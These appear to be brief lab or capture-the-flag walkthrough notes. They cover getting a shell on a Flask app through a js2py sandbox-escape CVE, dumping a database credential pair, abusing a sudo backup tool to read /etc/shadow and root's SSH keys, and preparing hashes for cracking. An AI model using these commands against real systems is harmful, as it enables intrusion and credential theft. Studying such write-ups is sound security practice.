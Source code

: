 ___


port 8000 running gunicorn


*libraries*
flask=3.0.3
flask-sqlalchemy=3.1.1
js2py=0.74


*evals  code*
result = js2py.eval_js(code)


*this is the CVE*
https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py

got shell


*dumped db*
marco:sweetangelbabylove

*this runs backup*
sudo /usr/local/bin/npbackup-cli --config npbackup.conf --backup


*dumped /etc/shadow*
sudo /usr/local/bin/npbackup-cli --config-file npbackup.conf --dump /etc/shadow


unshadow passwd_file.txt shadow_file.txt > unhadow.file



dumped /root/.ssh pass wasn't cracking

































